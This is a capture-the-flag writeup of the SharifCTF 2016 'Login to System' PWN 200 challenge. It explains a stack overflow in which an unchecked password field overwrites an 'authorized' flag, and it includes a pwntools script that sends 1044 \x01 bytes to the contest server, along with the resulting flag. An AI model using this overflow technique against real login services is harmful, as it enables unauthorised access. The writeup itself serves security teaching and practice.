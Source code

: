 +++
authors = "kbeckmann"
categories = [ "writeups" ]
date = "2016-02-06T22:31:14+01:00"
title = "SharifCTF 2016 Login to System (PWN 200) Writeup"
+++

# Problem

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Run and capture the flag!
>
> Download

Points: 200

Solved by 106 team(s)

# Solution

We are provided with a x86-64 linux executable:
~~~
Question: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=76aad63504451c70d8aa4e72299d2821fcf1b9f1, stripped
~~~

It is a server that starts a new handler thread for each incoming TCP connection on port 27515.

- The handler function prints a welcome message and reads your username and password.
- Then it checks if a stack variable, let's call it `authorized`, is `1`.
- If true, reads the flag from file system and prints it.

There are several strange things going on here.

- Username and password are both able to overwrite the stack.
- The stack variable `authorized` is read but never written to.

I was over thinking here and thought awesome - let's smash the stack jump into the true case in the if clause and get the flag. So I spent some time trying to get a nice ROP to do what I wanted. Big waste of time.

It turns out that the stack value `authorized` is located after both username and password, so the solution was to just fill the stack with \x01 and get the flag.

~~~
#!/usr/bin/env python2

from pwn import *
context(os = 'linux', arch = 'amd64')

r = remote('ctf.sharif.edu', 27515)

print r.recv()

r.sendline("Hello") # username
print r.recv()

r.sendline("\x01"*(1044)) # password
print r.recv()
~~~

Running it gives us the flag immediately.

~~~
Please enter your username and then press enter: Hello
Please enter your password and then press enter: \x01...
You are already logged in! Your flag is: cgjxkkbmdhudbovtezyv
~~~


*Flag is cgjxkkbmdhudbovtezyv*
